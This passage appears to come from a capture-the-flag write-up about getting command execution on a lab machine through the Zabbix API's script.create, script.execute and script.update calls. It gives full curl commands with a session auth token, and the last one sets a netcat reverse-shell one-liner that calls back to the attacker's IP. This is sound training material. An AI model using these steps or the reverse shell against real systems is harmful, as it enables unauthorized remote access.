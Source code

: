 
Now I’ll create a script to do what I want, with
[script.create](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/create).
I’ll start with a simple `whoami`. I’ll need to give the api three parameters:

  * `"command": "whoami"` \- the command to run
  * `"name": "test"` \- can be anything
  * `"execute_on": 0` \- where to run the script. If I don’t specify this, the default is 1, which means it will run on the Zabbix server. But I want to run it at the Zabbix agent, so I’ll pass 0. A lot of people (myself included) got stuck in the Zabbix container because this is an optional parameter, and if you don’t know to set it, you’ll not understand why it’s not putting you where you want to be.

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.create", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"command": "whoami", "name": "test", "execute_on": 0}}' | jq .
    {
      "jsonrpc": "2.0",
      "result": {
        "scriptids": [
          "4"
        ]
      },
      "id": 1
    }
    

I get back the scriptid of 4. Now I’ll run that with
[script.execute](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/execute):

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": 10106, "scriptid": 4}}' | jq .
    {
      "jsonrpc": "2.0",
      "result": {
        "response": "success",
        "value": "zabbix"
      },
      "id": 1
    }
    

I can see the command ran, and the value that came back was `zabbix`. Nice.
I’ll update my script to do something more interesting using the
[script.update](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/update)
api:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"}}' | jq -c .
    {"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}
    